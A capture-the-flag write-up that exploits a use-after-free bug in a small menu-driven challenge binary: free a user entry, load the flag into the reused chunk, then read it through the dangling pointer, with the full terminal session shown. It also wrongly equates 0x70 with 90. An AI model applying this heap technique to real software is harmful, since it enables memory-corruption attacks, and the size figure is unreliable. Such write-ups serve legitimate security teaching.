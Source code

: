## Nothing is free

As the title suggests, it is a simple [use after free](https://en.wikipedia.org/wiki/Dangling_pointer) vulnerability. Where the user has to exploit the allocated memory after it has been freed, to get the flag.

Looking at the source code, we can see that the program asks for the size of the block to allocate. & the memory size allocated to the flag is 0x70 ie. 90.

So, we'll initially allocate a block of size 90 to index 2(can be any other as well) and put something random, then free its memory contents.

Then we'll load the flag into the memory using command "4".

The program will allocate the memory at the same address we allocated earlier, since the size of both blocks is same to same time.

hence, the flag will get loaded in index 2. because the index_2 pointer will still point to the same location. (we didn't set the pointer to 0)

then we'll just print the flag.

here's how it goes

```
➜ ./pwn2
Welcome to User Management System!
You can add, remove, edit, and view users.
Note: Maximum 12 users can be added.

1. Add User
2. Remove User
3. View Users
4. load flag
5. Exit
Enter your choice:1
Enter index:2
Enter input size:90
Enter name of the user:sharnctf
User added !!

1. Add User
2. Remove User
3. View Users
4. load flag
5. Exit
Enter your choice:2
Enter index of the user to remove:2
User Deleted !!

1. Add User
2. Remove User
3. View Users
4. load flag
5. Exit
Enter your choice:4
[*] flag loaded into memory

1. Add User
2. Remove User
3. View Users
4. load flag
5. Exit
Enter your choice:3
Enter index:2
Name : pclub{Th15_w45_50me_h34p_us3_4ft3r_fr33_x0x0}

1. Add User
2. Remove User
3. View Users
4. load flag
5. Exit
Enter your choice:5
Exiting...
```